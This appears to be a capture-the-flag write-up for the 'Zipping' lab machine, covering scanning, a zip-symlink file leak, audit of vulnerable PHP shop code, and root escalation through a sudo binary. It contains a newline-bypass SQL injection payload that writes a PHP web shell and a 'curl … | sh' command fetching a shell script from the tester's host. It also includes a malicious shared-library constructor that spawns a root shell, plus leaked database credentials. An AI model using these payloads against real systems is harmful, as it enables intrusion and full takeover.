

## Machine


## Recon

- `nmap -sT -sV -sC -O -p 22,80 -oA nmap/detail 10.10.11.229`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 22-ssh, 80-http
- Path of 80, `gobuster dir -u http://10.10.11.229/shop/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x json,html,php,txt,xml,md -t 50 `

```bash
/home.php             (Status: 500) [Size: 0]
/products.php         (Status: 500) [Size: 0]
/index.php            (Status: 200) [Size: 2615]
/product.php          (Status: 200) [Size: 15]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 318] [--> http://10.10.11.229/shop/assets/]
/cart.php             (Status: 500) [Size: 1]
/functions.php        (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
```

- Dir of 80, `dirb http://10.10.11.229`

```bash
---- Scanning URL: http://10.10.11.229/ ----
==> DIRECTORY: http://10.10.11.229/assets/
+ http://10.10.11.229/index.php (CODE:200|SIZE:16738)
+ http://10.10.11.229/server-status (CODE:403|SIZE:277)
==> DIRECTORY: http://10.10.11.229/shop/
==> DIRECTORY: http://10.10.11.229/uploads/

---- Entering directory: http://10.10.11.229/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.11.229/shop/ ----
==> DIRECTORY: http://10.10.11.229/shop/assets/
+ http://10.10.11.229/shop/index.php (CODE:200|SIZE:2615)

---- Entering directory: http://10.10.11.229/uploads/ ----

---- Entering directory: http://10.10.11.229/shop/assets/ ----
```

## Foothold

### 80 - http

attack vectors:

- http://10.10.11.229/#
- http://10.10.11.229/shop/
- http://10.10.11.229/upload.php -> upload **zip** file (The unzipped file must have a .pdf extension.)

#### exp - upload

- change filename and content-type: application/x-php inside http repest [x]
- zip `--symlinks` -> create zip using sensitive file link (e.g. /etc/passwd)
  - `ln -s /etc/passwd 1.pdf && zip --symlinks 1.zip 1.pdf `


- leak /home/rektsu/.ssh/id_rsa [x]
- users: root, rektsu

#### exp - file leakage -> code audit - > sqli -> get shell

- index.php

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

- product.php -> id injection point [x]

```php
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>
```

- functions.php -> **root:MySQL_P@ssw0rd!**

```php
<?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
    	return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
    } catch (PDOException $exception) {
    	// If there is an error with the connection, stop the script and display the error.
    	exit('Failed to connect to database!');
    }
}
// Template header, feel free to customize this
function template_header($title) {
$num_items_in_cart = isset($_SESSION['cart']) ? count($_SESSION['cart']) : 0;
echo <<<EOT
<!DOCTYPE html>
```

- products.php -> sqli, p [x]

```php
<?php
// The amounts of products to show on each page
$num_products_on_each_page = 4;
// The current page - in the URL, will appear as index.php?page=products&p=1, index.php?page=products&p=2, etc...
$current_page = isset($_GET['p']) && is_numeric($_GET['p']) ? (int)$_GET['p'] : 1;
// Select products ordered by the date added
$stmt = $pdo->prepare('SELECT * FROM products ORDER BY date_added DESC LIMIT ?,?');
// bindValue will allow us to use an integer in the SQL statement, which we need to use for the LIMIT clause
$stmt->bindValue(1, ($current_page - 1) * $num_products_on_each_page, PDO::PARAM_INT);
$stmt->bindValue(2, $num_products_on_each_page, PDO::PARAM_INT);
$stmt->execute();
// Fetch the products from the database and return the result as an Array
$products = $stmt->fetchAll(PDO::FETCH_ASSOC);
// Get the total number of products
$total_products = $pdo->query('SELECT * FROM products')->rowCount();
?>
```

- cart.php -> http://10.10.11.229/shop/index.php?page=cart -> product_id is not precompiled -> sqli

  - how to bypass pre_match -> [PHP Tricks - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.)
  - **%0A** -> bypass
  - `quantity=1&product_id=1%0A';sql statement`
  - `select 'php_cmd' into outfile 'filename' -- -` -> filename [?] -> secure_file_priv
  - The default value of MySQL's secure_file_priv system variable may vary in different versions and configurations. In MySQL 5.7.6 and later, if you do not explicitly set this value during installation, the default value is usually set to the MySQL server's data directory. -> **/var/lib/mysql/**
  - POC: `1%0A';select '<?php phpinfo();?>' into outfile '/var/lib/mysql/a.php' -- -1`
  - Payload: `1%0A';select '<?php system($_GET["cmd"]);?>' into outfile '/var/lib/mysql/b.php' -- -1`

```php
<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
            // Product exists in database, now we can create/update the session variable for the cart
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}
```

- http://10.10.11.229/shop/index.php?page=/var/lib/mysql/b&cmd=id
- http://10.10.11.229/shop/index.php?page=/var/lib/mysql/b&cmd=curl 10.10.14.118/shell.sh | sh 


## Privilege Escalation

### rektsu -> root

- `sudo -l` -> `sudo /usr/bin/stock`

```bash
rektsu@zipping:/var/www/html/shop$ sudo -l                             
sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock  
```

### pwn stock

- file it

```bash
rektsu@zipping:/var/www/html/shop$ file /usr/bin/stock               
file /usr/bin/stock
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped
```

- reverse it
  - find password -> **St0ckM4nager**
  - understand program flow




- check shared libs
  - ldd /usr/bin/stock
  - objdump -p /usr/bin/stock | grep NEEDED
  - **strace** /usr/bin/stock (**input the correct password**)


- shared library exp -> `gcc -fPIC -shared -o libcounter.so /tmp/libcounter.c` -> sudo /usr/bin/stock -> get root shell

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```


